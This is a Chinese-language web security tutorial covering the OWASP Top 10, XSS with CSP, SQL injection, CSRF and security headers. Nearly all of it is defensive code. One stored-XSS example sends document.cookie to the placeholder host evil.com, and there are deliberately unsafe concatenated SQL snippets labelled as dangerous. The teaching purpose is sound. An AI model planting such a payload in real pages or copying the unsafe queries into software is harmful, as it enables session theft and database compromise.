



## OWASP Top 10 威胁概览

OWASP（Open Web Application Security Project）每几年发布 Top 10，是 Web 安全的必修课：

| 排名 | 威胁 | 核心问题 |
|------|------|----------|
| A01 | 失效的访问控制 | 越权访问、IDOR |
| A02 | 加密机制失败 | 敏感数据明文、弱算法 |
| A03 | 注入 | SQL/NoSQL/命令注入 |
| A04 | 不安全设计 | 缺乏安全建模 |
| A05 | 安全配置错误 | 默认配置、未关闭调试 |
| A06 | 易受攻击和过时的组件 | 已知漏洞的依赖 |
| A07 | 身份识别和认证失败 | 弱密码、会话管理不当 |
| A08 | 软件和数据完整性失败 | 不安全的 CI/CD、未验证更新 |
| A09 | 安全日志和监控失败 | 攻击无法被检测 |
| A10 | 服务端请求伪造 (SSRF) | 内网探测、云元数据泄露 |

## XSS 攻击与 CSP 防御

XSS（跨站脚本攻击）通过在页面中注入恶意脚本，窃取用户数据或冒充用户操作。

### 三种 XSS 类型



**存储型 XSS 示例**：

```html
<!-- 攻击者在评论区提交 -->
<textarea>
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>
</textarea>

<!-- 其他用户访问评论区时，脚本自动执行 -->
```

### 防御措施

**1. 输出编码（最根本的防御）**

```javascript
// 根据上下文选择编码方式
// HTML 上下文
function escapeHTML(str) {
    return str.replace(/[&<>"']/g, c => ({
        '&': '&amp;', '<': '&lt;', '>': '&gt;',
        '"': '&quot;', "'": '&#x27;'
    })[c]);
}

// JavaScript 上下文
// 使用 JSON.stringify
const data = JSON.stringify(userInput);

// URL 上下文
// 使用 encodeURIComponent
const url = `/search?q=${encodeURIComponent(userInput)}`;
```

**2. CSP（Content Security Policy）**

CSP 通过 HTTP 头限制页面可以加载哪些资源，从根源上阻止 XSS：

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123';     # 只允许同源 + 特定 nonce 的脚本
  style-src 'self' 'unsafe-inline';     # 同源样式 + 内联样式
  img-src 'self' data: https:;          # 图片来源限制
  connect-src 'self' https://api.example.com;  # AJAX 请求限制
  frame-ancestors 'none';               # 禁止 iframe 嵌入（防点击劫持）
  base-uri 'self';
  form-action 'self';
```

```html
<!-- nonce 模式：只允许带匹配 nonce 的脚本执行 -->
<script nonce="abc123">
  // 这段代码可以执行
</script>
<script>
  // 这段代码被 CSP 阻止
</script>
```

**3. HttpOnly Cookie**

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```

`HttpOnly` 防止 JavaScript 读取 Cookie，即使发生 XSS 也无法窃取会话。

## SQL 注入防护

SQL 注入是攻击者通过用户输入拼接 SQL 语句，执行非预期数据库操作：



### 防御方案

**1. 参数化查询（最有效）**

```go
// ❌ 拼接 SQL（危险）
query := fmt.Sprintf("SELECT * FROM users WHERE name = '%s'", username)
rows, err := db.Query(query)

// ✅ 参数化查询
rows, err := db.Query("SELECT * FROM users WHERE name = ?", username)
```

```python
# Python 示例
# ❌ 拼接
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")

# ✅ 参数化
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

**2. ORM 防注入**

```go
// GORM 内部使用参数化查询
var user User
db.Where("name = ?", username).First(&user)  // 安全

// ❌ 但这种方式不安全
db.Where(fmt.Sprintf("name = '%s'", username)).First(&user)  // 危险
```

**3. 最小权限原则**

数据库连接使用的账号应该只有必要的权限：

```sql
-- ❌ 应用使用 root 账号
-- ✅ 创建专用账号
CREATE USER 'app_user'@'%' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE, DELETE ON mydb.* TO 'app_user'@'%';
-- 不授予 DROP, ALTER, CREATE 等权限
```

## CSRF 攻击防御

CSRF（跨站请求伪造）利用已登录用户的 Cookie 自动携带特性，在恶意网站上发起请求：



### 防御措施

**1. SameSite Cookie**

```http
Set-Cookie: session=abc123; SameSite=Strict
```

- `Strict`：跨站请求完全不携带 Cookie（最安全但影响体验）
- `Lax`：GET 导航请求携带，POST/iframe 不携带（推荐默认值）
- `None`：跨站请求也携带（需配合 Secure）

**2. CSRF Token**

```python
# 服务端生成 Token，嵌入表单
@app.route("/transfer")
def transfer_form():
    csrf_token = generate_csrf_token()
    return render_template("transfer.html", csrf_token=csrf_token)

# 验证 Token
@app.route("/transfer", methods=["POST"])
def transfer():
    if request.form["csrf_token"] != session["csrf_token"]:
        abort(403)
    # 执行转账...

# AJAX 请求：Token 放在自定义请求头
@app.before_request
def verify_csrf():
    if request.method in ("POST", "PUT", "DELETE"):
        token = request.headers.get("X-CSRF-Token")
        if token != session.get("csrf_token"):
            abort(403)
```

**3. 检查 Origin/Referer**

```python
@app.before_request
def check_origin():
    origin = request.headers.get("Origin") or request.headers.get("Referer")
    if origin and not origin.startswith("https://good.com"):
        abort(403)
```

## 安全头配置实践

```http
# 严格传输安全：强制 HTTPS
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

# X-Content-Type-Options：禁止 MIME 嗅探
X-Content-Type-Options: nosniff

# X-Frame-Options：防止点击劫持
X-Frame-Options: DENY

# X-XSS-Protection：浏览器 XSS 过滤器（已被 CSP 取代，但作为兜底）
X-XSS-Protection: 1; mode=block

# Referrer-Policy：控制 Referer 泄露
Referrer-Policy: strict-origin-when-cross-origin

# Permissions-Policy：限制浏览器 API
Permissions-Policy: camera=(), microphone=(), geolocation=(self)

# Content-Security-Policy（最重要）
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

### Nginx 安全头配置

```nginx
server {
    listen 443 ssl http2;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-$request_id'" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
}
```

Web 安全的核心原则：**永远不信任用户输入**。输出编码、参数化查询、CSRF Token 是防御三大注入攻击的基石，安全头则是额外的防护层。安全不是一次性工程，而是持续的过程。
